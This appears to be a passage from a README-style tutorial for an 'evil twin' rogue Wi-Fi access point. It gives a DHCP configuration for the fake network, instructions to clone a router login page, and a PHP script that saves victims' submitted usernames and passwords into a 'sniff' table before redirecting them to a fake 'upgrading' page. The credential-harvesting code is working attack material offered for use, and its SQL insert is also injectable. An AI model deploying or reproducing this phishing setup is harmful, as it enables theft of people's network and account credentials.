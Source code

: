 ## Creating DHCP file

/etc/dhcpd.conf

```
authoritative;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast-address 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```

## Configuring the web page (LOGIN ROUTER WIFI)

Search and copy the html of a login webpage with the following action form:

```
<tr><td><form action="dbconnect.php" method="post">
```

And the appropriate `dbconnect.php`

```
<?php
session_start();
ob_start();
$host="localhost";
$username="fakeap";
$pass="fakeap";
$dbname="evilTwin";
$tbl_name="sniff";

// Create connection
$conn = mysqli_connect($host, $username, $pass, $dbname);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}


$username=$_POST['username'];
$password=$_POST['password'];

$sql = "INSERT INTO sniff (username, password) VALUES ('$username', '$password')";
if (mysqli_query($conn, $sql)) {
    echo "New record created successfully";
} else {
    echo "Error: " . $sql . "<br>" . mysqli_error($conn);
}

mysqli_close($conn);

sleep(2);
header("location:upgrading.html");
ob_end_flush();
?>
```
